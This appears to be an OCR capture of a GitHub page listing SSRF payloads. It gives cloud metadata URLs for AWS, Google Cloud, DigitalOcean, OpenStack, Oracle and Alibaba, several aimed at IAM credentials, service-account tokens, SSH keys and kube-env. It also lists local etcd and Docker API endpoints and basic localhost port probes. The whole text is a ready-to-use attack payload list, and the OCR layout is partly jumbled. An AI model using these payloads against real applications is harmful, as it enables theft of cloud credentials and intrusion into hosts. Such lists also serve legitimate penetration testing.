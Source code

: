 ```
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
http://localhost:9001/2018-06-01/runtime/invocation/next
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/openstack
http://169.254.169.254/2009-04-04/meta-data/ 
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
http://127.0.0.1:2379/version
http://127.0.0.1:2379/v2/keys/
http://127.0.0.1:2375/v1.24/containers/json
```




Basic SSRF v1

```
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
Basic SSRF — Alternative version
